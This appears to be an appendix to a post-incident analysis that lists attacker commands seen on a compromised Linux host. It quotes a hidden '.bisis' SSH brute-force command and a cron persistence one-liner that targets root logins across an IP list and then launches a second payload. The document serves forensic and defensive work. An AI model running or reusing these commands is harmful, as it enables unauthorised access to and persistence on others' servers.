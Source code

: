 
# Observed Commands

This document contains full versions of commands observed during the post-incident analysis.  
Each command is linked from the findings section for clarity and deeper technical context.

---

## 🧩 .bisis SSH Brute-Force Command
(id: `bisis-ssh-brute-force-command`)

```bash
/var/tmp/.update-logs/./.bisis ssh -o /var/tmp/.update-logs/data.json --userauth none --timeout 8
```

**Description:**  
Hidden binary `.bisis` executing SSH brute-force attempts against target systems.  
Uses a timeout of 8 seconds per connection attempt and references an external configuration file (`data.json`).

---

## 🧩 .bisis Cron Persistence Command
(id: `bisis-cron-command`)

```bash
bash -c "cd /var/tmp/.update-logs ; chmod +x /var/tmp/.update-logs/.bisis ; ulimit -n 999999 ; cat iplist | ./bisis -f 20 -t 8 -T 20 -S 10 -p 22 -l root -o /var/tmp/.update-logs/.history -O /var/tmp/.update-logs/.history -i eth0 -d /var/tmp/.update-logs/iplist2 ; ./x"
```

**Description:**  
Establishes persistence by scheduling `.bisis` brute-force execution via cron.  
Launches `.bisis` with customized parameters (threads, timeout, SSH port, username) and starts a second payload (`x`) after brute-forcing.

---
